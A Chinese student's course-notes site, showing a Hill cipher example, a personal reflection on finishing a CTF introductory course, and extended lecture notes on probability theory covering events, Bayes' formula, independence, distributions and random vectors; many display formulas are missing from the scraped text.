密文即为$ C = P \times K = \begin{bmatrix} 159 & 212 \end{bmatrix}\mod 26 = \begin{bmatrix} 3 & 4 \end{bmatrix} $，转回字母即 $\texttt{CD} $ 解密只需要计算 \(K\) 的逆矩阵即可，$ P = C \times K^{-1} = \begin{bmatrix} 3 & 4 \end{bmatrix} \times \begin{bmatrix} 7 & 18 \\ 23 & 11 \end{bmatrix} = \begin{bmatrix} 9 & 20 \end{bmatrix} $，再转回字母即 $\texttt{IT} $
reverse
约 13 个字
7-5 lec4-reverse¶
授课：我没听
我去长沙玩辣
短学期结课心得¶
约 592 个字 预计阅读时间 2 分钟
回来吧我的matlab
(x)
现在是2024年7月24日,北京时间晚上23：08分,刚农了几把,四负一胜,淦！
洗了个澡，Crypto的专题一的lab今天截至，交了，专题二的27号才交，还不想写，闲来无事，写一个上这门课的感受吧。
课，是好的，我，是菜的。真的难，但是做出来的瞬间也是真的爽，CTF对自学能力要求很高，如果喜欢填鸭式教育，喜欢老师把知识嚼碎了喂到嘴里的话，是万万不可选的。这个月为了CTF不知道往电脑里面塞了多少小玩意。（也往脑子里面塞了很多东西）
选了Misc和Crypto两个方向，与其说真的感兴趣，不如说这两个对于二进制的要求的比较低。Web嘛，兴趣不大。
Misc是真的好玩，7月3日刚到长沙那晚就被OSINT迷得不行，开盒，爽。也对编解码有了豁然开朗的认识。专题一的三道图片隐写感觉偏向工具使用，spetrogram比较迷人，从gif到音频，从0开始的python学习，让我享受的是全心全意投入知识的感觉，“用眼睛听音乐”，当旋律在耳中响起，似乎我也能与傅里叶产生些许共鸣，但是由于一开始没注意到使用的python版本导致只能跑出来一个着实有点高血压。Misc专题二是区块链和以太坊，全新的的领域，也是有点好玩的，但是掌握可能没这么快，后面可能还会再看看吧
Crypto只有lab0和维吉尼亚密码是顺畅做下去的，HSC线代的方面没拐过弯来，专题二更是折磨中的折磨，不过好在今天总算是做完了。
虽然总是和同学吐槽后悔不选matlab那个水水的，但是CTF101的的确确让我学到很多的东西， 但就做题过程中学会的python各种库的骚操作就够开一门课的感觉……也让我直观的感受到计算机这个专业还有那么多，那么广的，那么深的领域我从未涉足。虽然累吧，但总之受益匪浅。
完结撒花~
Ended: CTF
概率论 ↵
约 50 个字
授课:苏中根
"同学们我们的雷达点名已经开始"
目录¶
事件及其概率¶
约 1370 个字 预计阅读时间 5 分钟
Quote
本章节部分内容参考了周学长的blog
随机现象域统计规律性¶
随机现象¶
-
确定性现象:可以确定在一定条件下某种现象必定发生或者必定不会发生
- 必然事件:一定会发生，例如太阳一定会东升西落
- 不可能事件:一定不会发生，例如家猪会飞上天
-
随机现象:在一定条件下，某种事件可能发生也可能不发生
-
随机试验(random experiment):对于随机现象，在基本相同的条件下，重复进行试验或者观察，可能出现不同的结果(但是结果的所有可能是知道的，不知道出现哪一种可能)
-
随机试验的结果称为随机事件(random event),简称事件
概率的统计定义¶
相同条件下重复\(N\)次试验,各次试验互不影响,事件\(A\)出现的次数(频数)\(n\),称
为 \(A\) 在 \(N\) 次试验中出现的 频率 (frequency)
\(N\)足够大时频率会趋向于一个常数，称为 概率 (probability),记为\(P(A)\),概率可以表示事件\(A\)在一次试验中发生的可能性的大小
概率和频率的特性
-
非负性：\(\forall A\in \mathcal{F},P(A)\geqslant 0\)
-
规范性：\(P(\Omega)=1\)
-
可列可加性：\(A_i\cap A_j=\emptyset, i\neq j\) (即 \(A_1,\cdots, A_n, \cdots\) 为两两不相容的事件)
古典概型¶
样本空间和样本点¶
样本空间和样本点是概率论和统计学中的两个基本概念。
样本空间(Sample Space)
样本空间是指在一次试验或随机事件中，所有可能的结果的集合。用符号 \( S \) 或 \( \Omega \) 表示。例如：
- 掷一枚硬币：样本空间是硬币的所有可能结果，记作 \( S = \{ \text{正面}, \text{反面} \} \) 或 \( S = \{H, T\} \)。
- 掷一颗骰子：样本空间是骰子的所有可能结果，记作 \( S = \{1, 2, 3, 4, 5, 6\} \)。
样本点(Sample Point)
样本点是样本空间中的一个元素，表示一次试验的一个可能结果。样本点是样本空间的一个具体结果。例如：
- 在掷一枚硬币的试验中，样本空间为 \( S = \{H, T\} \)，其中 \( H \) 和 \( T \) 就是样本点。
-
在掷一颗骰子的试验中，样本空间为 \( S = \{1, 2, 3, 4, 5, 6\} \)，其中 \( 1, 2, 3, 4, 5, 6 \) 都是样本点。
-
样本空间 是所有可能结果的集合。
-
样本点 是样本空间中的一个单一结果。
古典概型¶
古典概型的特征
- 样本空间中样本点有限，\(\Omega=\{\omega_1,\omega_2, \cdots, \omega_n\}\)
- 各基本事件等可能，即 \(P(\omega)=\frac 1n\)
古典概率(classical probability)的计算：
Example
有 \(n\) 个球，\(N\) 个格子 (\(n \leqslant N\))，球与格子都是可以区分的。每个球落在各格子的概率相同 (设格子足够大，可以容纳任意多个球)。将这 \(n\) 个球随机地放入 \(N\) 个格子，求：
- 指定的 \(n\) 格各有一球的概率；
- 有 \(n\) 格各有一球的概率。
把球编号为 \(1 \sim n\)，\(n\) 个球的每一种放法是一个样本点，这属于古典概型。由于一个格子可容纳任意多球，样本点总数应该是从 \(N\) 个中取 \(n\) 个的重复排列数 \(N^n\)。
- 记 \(A = \{\text{指定的 } n \text{ 格各有一球}\}\)，它包含的样本点数是指定的 \(n\) 格中 \(n\) 个球的全排列数 \(n!\)，故：
- 记 \(B = \{\text{有 } n \text{ 格各有一球}\}\)，它所包含的样本点数是 \(N\) 格中任取 \(n\) 格的全排列数 \(P_{N}^{n}\)，故：
注意到 \(\log(1 - x) = -x + O(x^2), , x \to 0\)。我们有：
故当 \(N\) 比 \(n\) 大得多时，我们可以采用近似计算公式：
几何概型¶
几何概型的特征
- 样本空间中样本点无限
- 样本点落在等测度(长度、面积、体积...)区域的概率相等
几何概型的计算：
\(A_g=\{\text{任取样本点，位于区域 }g\in\Omega\text{ 的概率}\}\)
蒲丰 (Buffon) 投针问题
平面上画很多平行线，间距为 \(a\)。向此平面投掷长为 \(l \, (l < a)\) 的针，求此针与任一平行线相交的概率
以针的任一位置为样本点，它可以由两个参数决定：针的中点与最近的平行线之间的距离 \(x\)，针与平行线的夹角 \(\varphi\)。
样本空间：
为一矩形。针与平行线相交的区域是：

所求概率是：
因为概率 \(P\) 可以用多次重复试验的频率来近似，所以可以得到它的近似值。方法是重复投针 \(N\) 次(或一次投针若干枚，总计 \(N\) 枚)，统计与平行线相交的枚数 \(n\)，则 \(P \approx n/N\)。
又因为 \(l \leqslant a\) 且可精确测量，故从 \(2l/a\pi \approx n/N\) 可解得 \(\pi \approx 2lN/an\)。历史上有人不止一次做过这个试验，做得最好的一个投掷了 3408 次，算得 \(\pi \approx 3.1415929\)，其精确度已经达到小数点后第六位。
设计一个随机试验，通过大量重复试验得到某种结果，以确定我们感兴趣的某个量，由此而发展的蒙特卡洛(Monte-Carlo)方法为这种计算提供了一种途径。随着电子计算机的发展，基于随机试验法的内容，得使这种方法变得非常有效。
概率的公理化定义¶
把样本空间看做全集，事件看作包含样本点的集合,可以采用集合论的方法来研究事件
有事件之间的中的
- 包含
- 相等
- 并(至少一个发生)
- 交(同时发生)
- 差(\(A\) 差 \(B\),\(A\)发生但\(B\)不发生\(A\)差\(B = A\overline{B}\))
- 互不相容($A\cap B = \emptyset $)
- 互逆事件($A \cap B = \emptyset $ 且 \(A \cup B = \Omega\))
Note
事件的关系与运算满足集合论中有关集合运算的一切性质(交换律，结合律，分配律，De Morgan律)
概率空间¶
第一个要素为样本空间 \(\Omega\)，是样本点 \(\omega\) 的全体，根据问题需要事先取定。
第二个要素为事件域 \(\mathrm{F}\)，是 \(\Omega\) 中某些满足下列条件的子集的全体所组成的集类：
- \(\Omega \in \mathrm{F}\)；
- 若 \(A \in \mathcal{F}\)，则 \(A^c \in \mathcal{F}\)；
- 若 \(A_1, A_2, \ldots, A_n, \ldots \in \mathcal{F}\)，则 \(\bigcup_{n=1}^\infty A_n \in \mathcal{F}\)。
Key-point
总结为事件域中的运算是封闭的
满足这三个条件的 \(\mathcal{F}\) 称为 \(\Omega\) 上的 \(\sigma\)-代数或 \(\sigma\)-域。 \(\mathcal{F}\) 中的元素（\(\Omega\) 的子集）称为事件。
由这三个条件，可以推得事件域有下列性质：
-
\(\emptyset \in \mathcal{F}\) （因 \(\emptyset = \Omega^c\)）；
-
若 \(A_1, \ldots, A_n, \ldots \in \mathcal{F}\)，则 \(\bigcap_{n=1}^\infty A_n \in \mathcal{F}\) （因 \(\bigcap_{n=1}^\infty A_n = \left( \bigcup_{n=1}^\infty A_n^c \right)^c\)）；
-
若 \(A_1, \ldots, A_n \in \mathcal{F}\)，则 \(\bigcup_{k=1}^n A_k \in \mathcal{F}\)，\(\bigcap_{k=1}^n A_k \in \mathcal{F}\)。
事件域也可以根据问题选择。因为对同一个样本空间 \(\Omega\)，可以有很多 \(\sigma\) -代数。例如最简单的是
复杂的如
也是\(\sigma\)-代数，所以要适当选择。特别地，若\(\Omega\)为有限或可列个样本点组成，则常取\(\Omega\)的一切子集所成的集类作为
像在古典概率中那样。不难验证，\(\mathcal{F}\)是\(\sigma\)-代数。
若 \(\Omega = \mathbf{R}\)（一维实数全体），此时常取一切左开右闭有界区间和它们的（有限或可列）并、（有限或可列）交、逆所成的集的全体为\(\mathcal{F}\)（通常记为\(\mathcal{B}\)），称为一维波雷尔（Borel）\(\sigma\)-代数，其中的集称为一维波雷尔集，它是比全体区间大得多的一个集类。
若\(\Omega = \mathbf{R}^{n}\)n维实数全体），则常取一切左开右闭有界n维矩形和它们的（有限或可列）并、（有限或可列）交、逆所成的集的全体为\(\mathcal{F}\)（通常记为\(\mathcal{B}^n\)），它包含了我们感兴趣的所有情形，称为n维波雷尔\(\sigma\)-代数。
如果我们对\(\Omega\)的某个子集类\(\mathcal{C}\)感兴趣，所选的事件域\(\mathcal{F}\)可以是包含\(\mathcal{C}\)的最小\(\sigma\)-代数，这种\(\sigma\)-代数是存在的，因为：
- 至少有一个包含\(\mathcal{C}\)的\(\sigma\)-代数，即上述\(\mathcal{F}_2\)；
- 若有很多包含\(\mathcal{C}\)的\(\sigma\)-代数，则它们的交也是\(\sigma\)-代数，且就是最小的。
特别地，如果我们只对\(\Omega\)的一个子集A感兴趣，则包含A的最小\(\sigma\)-代数就是
Note
概率是\(\mathcal{F}\)上的实值集函数 \(A(\in, \mathcal{F}) \rightarrow P(A)\),并且满足非负性，规范性，可列可加性三个条件(公理)
满足这些定义的概率测度 \(P\) 应满足的基本公式有以下式：
-
\(P(\emptyset) = 0\).
-
若 \(A_i; A_j = \emptyset, \, i, j = 1, 2, \ldots, n, \, i \neq j\), 则
-
\(P(A) = 1 - P(A^c)\).
-
若 \(B \subseteq A\), 则 \(P(A - B) = P(A) - P(B)\).
-
\(P(A \cup B) = P(A) + P(B) - P(AB)\).
-
\(P(A \backslash B)=P(A) - P(AB)\)
-
(多还少补定理，容斥原理)
证明-数学归纳法
- 验证基例 \(n = 1\) 当 \(n = 1\) 时，定理变为：
显然这是正确的，所以基例成立。
- 归纳假设 假设对于 \(n = k\) 时，定理成立，即：
- 证明 \(n = k+1\) 时的情形 现在我们需要证明，当有 \(k+1\) 个事件 \(A_1, A_2, \ldots, A_{k+1}\) 时，定理同样成立。
首先考虑 \(P(A_1 \cup A_2 \cup \ldots \cup A_{k+1})\)：
利用概率的加法原理，有：
根据归纳假设，\(P(A_1 \cup A_2 \cup \ldots \cup A_k)\) 可以展开为：
因此，原式变为：
注意，\(P((A_1 \cup A_2 \cup \ldots \cup A_k) A_{k+1})\) 可以展开为：
将其代入之前的公式中，得到：
这正是我们需要证明的 \(n = k+1\) 的情形。
- (次可加性)
概率测度的连续性¶
给定一概率空间 \((\Omega, \mathcal{F}, P)\)，假设 \(A_1, A_2, \ldots\) 是一列单调增加的事件序列，即
记 \(A = \bigcup_{n=1}^{\infty} A_n\)，称 \(A\) 为 \(A_n\) 的极限。从公理化定义可以看出，\(A\) 仍然是一个事件。下面定理给出该事件的概率大小。
如果 \(A_1, A_2, \ldots\) 是一列单调增加的事件序列，具有极限 \(A\)，那么，
事件的上极限和下极限¶
事件是样本点的集合，事件的上级限和下极限是事件的集合的极限。
对于一个集合序列，我们定义其上极限和下极限如下：
Definition
设 \(\{ A_n \}_{n=1}^{\infty}\) 是一列事件序列，定义
为事件 \(A_n\) 的上极限，而
为事件 \(A_n\) 的下极限。
其实理解起来也是不困难的，对于上极限
可以设\(B_n=\bigcup_{k=n}^{\infty} A_k\)，则\(B_1\supset B_2 \supset \cdots\)，即\(B_n\)是单调递减的(因为参与并的集合越来越少了)，我们取这个单调递减的序列的交(也就相当于取极限,从最大的开始不断剔除里面多余的元素)，就是上极限
而对于下极限，我们可以设\(C_n=\bigcap_{k=n}^{\infty} A_k\)，则\(C_1\subset C_2 \subset \cdots\)，即\(C_n\)是单调递增的(因为参与交的集合越来越少了)，我们取这个单调递增的序列的并(也就相当于取极限,从最小的开始不断添加里面缺失的元素)，就是下极限
Example
则有
上极限：\(\limsup_{n \to \infty} A_n = \{2,3,4\}\)
下极限：\(\liminf_{n \to \infty} A_n = \{4\}\)
条件概率和链式法则¶
条件概率 \(P(A|B)\)
事件 \(B\) 发生条件下事件 \(A\) 发生的概率，称为事件 \(A\) 关于事件 \(B\) 的 条件概率 (conditional probability)
有基本公式:
也可以表示为 链式法则(乘法公式) 的形式：
推广到 \(n\) 个事件
推广到 \(n\) 个事件，有链式法则：
特别定义 \(a>b\) 时，\(\prod_{i=a}^bA_i\) 为必然事件。
全概率公式¶
分割(完备事件组)
在概率空间 (\(\Omega, \mathcal{F}, P\)) 中，若事件 \(\{A_1, A_2, \cdots, A_n\}\)(\(n<\infty\) 或 \(n=\infty\)) 满足：
- \(A_i\) 两两互不相容(不可能同时发生)，且 \(P(A_i)>0\)
-
\[\sum_{i=1}^\infty A_i=\Omega\]
则称 \(\{A_1, A_2, \cdots, A_n\}\) 构成 \(\Omega\) 的一个 分割(完备事件组)
全概率 (total probability) 公式
在概率空间 (\(\Omega, \mathcal{F}, P\)) 中，若 \(\{A_1, A_2, \cdots, A_n\}\)(\(n<\infty\) 或 \(n=\infty\)) 构成 \(\Omega\) 的一个 分割(完备事件组) ，
则有 全概率公式 成立：\(\forall B\in \mathcal{F}\)，有
Proof
贝叶斯公式¶
贝叶斯 (Bayes) 公式
Proof
\(P(A_i|B)=\dfrac{P(A_iB)}{P(B)}\)，分子用链式法则展开，分母用全概率公式展开。
深入了解条件概率的意义
\(P(A_i)\)：不知 \(B\) 是否发生，称为 先验 (priori) 概率
\(P(A_i|B)\)：以 \(B\) 发生为已知条件，称为 后验 (posteriori) 概率
事件独立性¶
两个事件的独立性¶
\(A\) 与 \(B\) 相互独立(统计独立)
称事件 \(A\) 与事件 \(B\) 相互独立(统计独立，statistical independence)，如果满足
因为此时有
且
如果 \(A\) 与 \(B\) 不相互独立，也称为 统计相依 (statistical dependence)
多个事件的独立性¶
对于一组事件 \(A_1,A_2,\cdots,A_n\)，存在两两独立和整体的相互独立两种概念。
不妨先以三个事件 \(A,B,C\) 为例进行研究。
-
两两独立：即 \(A\) 与 \(B\) 相互独立，\(B\) 与 \(C\) 相互独立，\(C\) 与 \(A\) 相互独立
\[ \left\{\begin{array}{l} P(A B)=P(A) \cdot P(B) \\ P(A C)=P(A) \cdot P(C) \\ P(B C)=P(B) \cdot P(C) \end{array}\right. \]但是有可能
\[ P(ABC) \neq P(A)\cdot P(B)\cdot P(C) \] -
整体相互独立：即满足
\[ P(ABC)=P(A)\cdot P(B)\cdot P(C) \]
同时满足两两独立和整体的相互独立，才能说 \(A, B, C\) 相互独立。 且A与BC的并，交，差等也是独立的。
推广到 \(n\) 个事件
推广到 \(n\) 个事件，\(A_1,A_2,\cdots,A_n\) 相互独立需要满足：\(\forall r<n\)，\(A_1,A_2,\cdots,A_n\) 中任意 \(r\) 个事件都相互独立，且
或者可以直接这么定义：\(A_1,A_2,\cdots,A_n\) 相互独立，如果
伯努利试验¶
伯努利概型（Bernoulli trial）是概率论中的一个基本概念，它描述了只有两个可能结果的随机试验，通常称为“成功”和“失败”。每次试验都是独立的，并且每次成功的概率都是相同的，记作 \( p \)，而失败的概率则为 \( 1-p \)。
伯努利概型的特点包括：
- 只有两个结果：每次试验的结果只能是成功或失败。
- 独立性：每次试验的结果不会影响其他试验。
- 固定的成功概率：每次试验中成功的概率 \( p \) 是不变的。
伯努利概型常用于建模各种现实情况，比如抛硬币、调查投票等。在多个伯努利试验的基础上，有二项分布
二项分布(Binomial distribution)是n重伯努利试验成功次数的离散概率分布，记作\(B(n,p)\)。
其中，\( \binom{n}{k} \) 是组合数，表示从 \( n \) 次试验中选择 \( k \) 次成功的方式总数。二项分布适用于描述在 \( n \) 次独立的伯努利试验中，成功发生的次数。
Example
一枚硬币抛 10 次，求恰好 3 次正面朝上的概率。
这是一个二项分布问题，其中 \( n = 10 \)，\( k = 3 \)，\( p = 0.5 \)。代入公式，有：
所以恰好 3 次正面朝上的概率是 0.1172。
乘积概率空间¶
乘积概率空间
设有两个概率空间 \((\Omega_1, \mathcal{F}_1, P_1)\) 和 \((\Omega_2, \mathcal{F}_2, P_2)\),对应试验为 \(E_1\) 和 \(E_2\),独立地做两个试验，记录其结果为 \((\omega_1, \omega_2)\),则称 \((\Omega_1 \times \Omega_2, \mathcal{F}_1 \times \mathcal{F}_2, P_1 \times P_2)\) 为 \((\Omega_1, \mathcal{F}_1, P_1)\) 和 \((\Omega_2, \mathcal{F}_2, P_2)\) 的 乘积概率空间。
其中事件事件 \(A\)
其概率
Note
两个试验的乘积概率空间可以在二维平面上表示
Simpson 悖论
约束条件为
随机变量与随机向量¶
约 2495 个字 预计阅读时间 9 分钟
随机变量¶
随机变量的概念¶
随机变量
定义概率空间 \((\Omega, \mathcal{F}, P)\) 上的单值实函数 \(\xi(\omega)\)，即
还要求 \(\xi(\omega)\) 的任意取值组合对应的样本点集合构成的事件在事件域 \(\mathcal{F}\) 中，这样就可以称 \(\xi(\omega)\) 为 随机变量 (random variable)
即将\(\xi\)看成一个函数，我们希望它的值域集合\(A(\in R)\)也满足事件的运算，所以要求它是博雷尔集,落在博雷尔域\(\mathcal{B}\)中，即从事件域\(\mathcal{F}\)到事件域的映射，由于原\(\Omega\)中的样本点映射到了\(\mathbb R\)中，所以映射之后的事件域称为波列尔域\(\mathcal{B}\)
离散型随机变量¶
离散型随机变量：随机变量 \(\xi\) 可取的值至多可列个。
分布列 (distribution sequence)
第一行是 \(\xi\) 可能取的值，第二行是 \(\xi\) 取这些值的概率。
分布列的性质
- 正性，即
- 规范性，即
Examples
对一些常见离散型随机变量举例如下：
即 degenerate distribution
即样本空间的所有点都映射到一个确定的实数上，概率为1
即 伯努利分布 ，Bernoulli distribution
即 binomial distribution
记为 \(\xi\sim B(n,p)\)
即 Poisson distribution
记为 \(\xi\sim\mathcal{P}(\lambda)\)
对于二项分布，当 \(n\to\infty,np=\lambda\) 时，二项分布趋近于泊松分布。
Note
其中 \(\lambda=np\) 是泊松分布的参数，也是它的数学期望； 因为
即 geometry distribution,一般用于解决第一次成功的问题
即 hypergeometry distribution，一般用于解决次品抽样问题
分布函数与连续型随机变量¶
离散型随机变量是用分布列来描述的，而对于某些情况，例如随机变量可以在某一个区间内取任意值，这个时候就不存在分布列，需要引入新的描述方法来描述概率分布，并且我们希望这个描述方法能够对一切的随机变量都适用。
分布函数
设 \(\xi\) 是一个随机变量，对任意实数 \(x\)，定义函数 \(F(x)\) 为
这个函数称为 \(\xi\) 的 分布函数 (distribution function) 对于给定的随机变量 \(\xi\)，其分布函数是唯一的，它是实变量 \(x\) 的函数，且满足：
性质
- 有界性：作为事件的概率自然有 \(0\leqslant F(x)\leqslant 1\)
-
单调不减性：\(x_1<x_2\Rightarrow F(x_1)\leqslant F(x_2)\)
-
作为一个有界的单调不减函数 \(F(-\infty)=0\), \(F(+\infty)=1\)
- 右连续性：\(\lim_{x\to x_0+0}F(x)=F(x_0)\)，左极限存在\(\lim_{x\to x_0-0}F(x)=F(x_0)\)
- 在有些教材中
此时 \(F(x)\)要求左连续,右极限存在
Note
- 对于离散型随机变量，其分布函数是阶梯函数
- 对于连续型随机变量，其分布函数是连续函数，采用密度函数积分来计算
- 只要函数值大于0，且整个定义域积分为1，就可以叫做密度函数
正态分布¶
Definition
若随机变量 \(\xi\) 的分布函数为
其中 \(\mu\) 和 \(\sigma\) 是常数，且 \(\sigma>0\)，则称 \(\xi\) 服从参数为 \(\mu\) 和 \(\sigma\) 的 正态分布 (normal distribution)，记为 \(\xi\sim N(\mu,\sigma^2)\)
正态分布的密度函数为
正态分布是最重要的分布之一，它的密度函数是一个钟形曲线，且具有以下性质：
Property
- 期望值：\(E(\xi)=\mu\)
- 方差：\(D(\xi)=\sigma^2\)
- 正态分布的密度函数是关于 \(\mu\) 对称的，即 \(f(x)=f(2\mu-x)\)
标准正态分布
若 \(\xi\sim N(0,1)\)，则称 \(\xi\) 服从 标准正态分布 (standard normal distribution)，记为 \(\xi\sim N(0,1)\)
此时 \(\mu=0\)，\(\sigma=1\)，其密度函数为
如果\(x\)不是标准正态分布，则可以通过
将其变为 \(\eta\) ,标准分布
虽然标准正态分布的显式分布函数求不出来，但是可以通过查表得到其值
3 \(\sigma\) 原则
离散型随机向量¶
给定概率空间 \((\Omega, A, P)\)，\((X, Y)\) 是 2-随机向量。
假设 \(X\) 取值为 \(x_1, x_2, \dots\)，\(Y\) 取值为 \(y_1, y_2, \dots\)。那么称 \((X, Y)\) 为离散型随机向量。
记
满足
称
为随机向量 \((X, Y)\) 的联合分布。
对于任意 Borel 集合 \( A, B \),
特别地，
边际分布¶
\( X, Y \) 的分布可以由 \( p_{ij} \) 计算得到
其中
类似地，
其中
Warning
边际分布由联合分布唯一确定，但是反过来不一定成立。因为加起来等于一个值并不能确定分开的每一个值
条件概率与条件分布¶
对于固定的 \( x_i, y_j \)，我们得到
如果 \( x_i, y_j \) 变化，那么我们可以得到条件分布：
给定 \( X = x_i \) 的条件下，\( Y \) 可取值 \( y_1, y_2, \dots, y_j, \dots \) 时，概率分别为
条件分布列¶
同理也可以得到 \(X|Y\) 的条件分布
Note
方便起见，这里把 \(P_{i.}\) 记为 \(P_i\)
连续性随机向量¶
给定概率空间 \((\Omega, A, P)\)，\((X, Y)\) 是其上的随机向量。如果存在 \(p(x, y)\) 使得
并且对任意 Borel 集 \(A, B \subset \mathbb{R}\),
那么称 \((X, Y)\) 是连续型随机向量，具有密度函数 \(p(x, y)\)。
特别，对任意 \(x, y \in \mathbb{R}\)
连续型的边际分布¶
显然，如果 \((X, Y)\) 是连续型随机向量，那么 \(X, Y\) 都是连续型随机变量。并且，
其中
同样，联合分布惟一决定边际分布，边际分布不能决定联合分布。
连续型的条件分布¶
与离散型的类似；连续型的条件分布的密度函数就是在原来的基础上分母变为对应确定变量的边际函数某点的值；更详细地说:
假设 \((X, Y)\) 是连续型随机向量，具有联合密度函数 \(p(x, y)\)，下面讨论条件分布
给定 \(X = x\)，求 \(Y\) 的分布？
即 \(P(Y \leq y | X = x)\)
注意 \(P(X = x) = 0\)，我们采用
给定 \(X = x\) 下，\(Y\) 具有密度函数
Key-point
推导过程中上下同时除以 \(2\varepsilon\) 是为了使用拉格朗日中值定理 即
联合正态分布
如果随机向量 \((X, Y)\) 具有密度函数：\(\forall x, y \in \mathbb{R}\)
那么称 \((X, Y)\) 服从二维联合正态分布，\(\mu_1, \mu_2, \sigma_1^2, \sigma_2^2, \rho\) 为参数。简记
验证 \(p(x, y)\) 确实是密度函数
经过变换：\(u = \frac{x-\mu_1}{\sigma_1}, v = \frac{y-\mu_2}{\sigma_2}\)，等价于
左边进行配方，得
Idea
这里利用了标准正态分布的性质，即
联合正态分布的边际分布
\(p_X(x)\) 和 \(p_Y(y)\) 都是正态分布
假设 \((X, Y) \sim \mathcal{N}(\mu_1, \sigma_1^2, \mu_2, \sigma_2^2; \rho)\)，求 \(X, Y\) 的边际分布？
进行配方，得
令 \(z = y - \mu_2\)，则
将指数部分进行配方，得
因此，
由于
所以
因此，
当 \(\rho = 0\) 时，\(X, Y\) 独立
对于一般的随机向量，有可能其既没有分布列，也没有密度函数，此时主要用其分布函数来描述。
独立性¶
对于联合分布，如果 \(p(x,y)=p_X(x)p_Y(y)\)，则称 \(X\) 和 \(Y\) 独立。
或者 \(F(x,y)=F_X(x)F_Y(y)\)
或者对于任意波雷尔集\(A,B\)
一般最后一个是很好用的，可以用来证明\(f(X),g(Y)\)是独立的，(运用原像集也是博雷尔集的性质)
二元分布函数的性质¶
二元分布函数的性质
- \(F(-\infty, y) = 0\), \(F(x, -\infty) = 0\), \(F(\infty, \infty) = 1\)
- \(F(x, y)\) 关于 \(x\) 和 \(y\) 非减
- \(F(x, y)\) 关于 \(x\) 和 \(y\) 右连续，左极限存在
可以从积分区域的角度理解
\(F_X(x) = F(x, \infty)\)
\(F_Y(y) = F(\infty, y)\)
条件分布¶
假设 \((X, Y)\) 具有分布函数 \(F(x, y)\)，那么给定 \(X = x\)，\(Y\) 的条件分布函数为
类似地，
多维随机向量¶
- 多维随机向量
假设 \((\Omega, \mathcal{A}, P)\) 是给定的概率空间，
如果对任意 Borel 集 \(B \subset \mathbb{R}^m\),
Note
这里指的是经过随机向量的映射后仍属于博雷尔集的样本点的集合仍在事件域中
那么称 \(\mathbf{X}\) 为 \(m\)-维随机向量
- \(m\)-元联合分布函数
假设 \(\mathbf{X} = (X_1, X_2, \cdots, X_m)\) 是 \(m\)-维随机向量，其联合分布函数为
其中 \(\mathbf{x} = (x_1, \cdots, x_m)\).
- 边际分布
\(X_i\) 的边际分布为
- 独立随机变量
假设 \(\mathbf{X} = (X_1, X_2, \cdots, X_m)\) 是 \(m\)-维随机向量，其联合分布函数为 \(F_{\mathbf{X}}(x)\)，边际分布为 \(F_{X_i}(x_i), i = 1, \cdots, m\)。如果
那么称 \(X_1, X_2, \cdots, X_m\) 相互独立。
-
注：如果 \(X_1, X_2, \cdots, X_m\) 相互独立，那么
-
\((X_{i_1}, X_{i_2}, \cdots, X_{i_k}), k \leq m\) 相互独立
- \(f_1(X_1), f_2(X_2), \cdots, f_m(X_m)\) 相互独立
- \(f(X_{i_1}, X_{i_2}, \cdots, X_{i_k}), g(X_{j_1}, X_{j_2}, \cdots, X_{j_l})\) 分别是 \(k\) 元和 \(l\) 元 Borel 可测函数，且 \(A \cap B = \emptyset\)。如果 \(A, B \subset \{1, 2, \cdots, m\}, |A| = k, |B| = l\)，并且 \(A \cap B = \emptyset\)，那么 \(f(X_i, i \in A)\) 和 \(g(X_i, i \in B)\) 相互独立。
随机变量的映射¶
对于常见的函数\(f\),\(Y=f(X)\),如果\(X\)是随机变量，我们为了要求\(Y\)是随机变量，需要满足\(f\)是Borel可测函数，即对于任意Borel集\(B\)，\(f^{-1}(B)\)也是Borel集,对于一维的情况，主要有以下两种方法来计算Y的分布
计算Y的分布
此时\(Y\)也是离散型随机变量;根据 \(X\) 的取值，可以得到 \(Y\) 的取值，然后根据 \(X\) 的分布列，可以得到 \(Y\) 的分布列,
此时\(Y\)不一定是连续型随机变量，没有统一的计算公式，但是 一般可以先求出\(Y\)的分布函数，然后求导得到密度函数
随机向量的映射¶
(连续型)随机向量的映射有时候不仅仅是对于一个结果函数的映射，也有对于一个向量的映射，我们依次考虑
求像的分布
假设 \((\xi_1,\xi_2,\ldots,\xi_i)\)是连续型随机向量，具有联合密度函数\(p(x_1,x_2,\ldots,x_i)\)，变换如下：
那么\(\eta\)的分布函数可以由以下公式得到
值得注意的例子
如果\(\xi_1,\xi_2\)是连续型随机变量，那么\(\eta=\xi_1+\xi_2\)的分布函数为
\(x_2=z-x_1\)，则
再交换次序(此时积分区域为矩形，所以我们才可以可以交换次序)
所以我们得到密度函数
若\(\xi_1,\xi_2\)相互独立，那么
积分区域画图看
推导过程中不管\(z\)是正还是负，积分区域总能这样划分
令 \( x_1 = z x_2 \)，并交换积分次序，得
这说明若 \( (\xi_1, \xi_2) \) 是连续型随机向量，则 \( \eta = \frac{\xi_1}{\xi_2} \) 是连续型随机变量，其密度函数为
推导过程中不管\(y\)是正还是负，积分区域总能这样划分
设 \( \xi_1, \xi_2, \dots, \xi_n \) 独立同分布，分布函数都为 \( F(x) \)。把 \( \xi_1, \xi_2, \dots, \xi_n \) 每取一组值 \( \xi_1(\omega), \xi_2(\omega), \dots, \xi_n(\omega) (\omega \in \Omega) \) 都按大小次序排列，所得随机变量 \( \xi_{(1)}, \xi_{(2)}, \dots, \xi_{(n)} \) 称为 次序统计量 (order statistics)，它们满足 \( \xi_{(1)} \leq \xi_{(2)} \leq \dots \leq \xi_{(n)} \)。按定义，\( \xi_{(1)} = \min(\xi_1, \xi_2, \dots, \xi_n) \)，\( \xi_{(n)} = \max(\xi_1, \xi_2, \dots, \xi_n) \)。
现在来求 \( \xi_{(1)}, \xi_{(n)} \) 及 \( (\xi_{(1)}, \xi_{(n)}) \) 的分布，这在数理统计中是有用的。
极值随机变量
\(\xi_{(1)}\)是最小值，\(\xi_{(n)}\)是最大值,\(\xi_{(k)}\)是第k小值
-
\( \xi_{(n)} \) 的分布函数
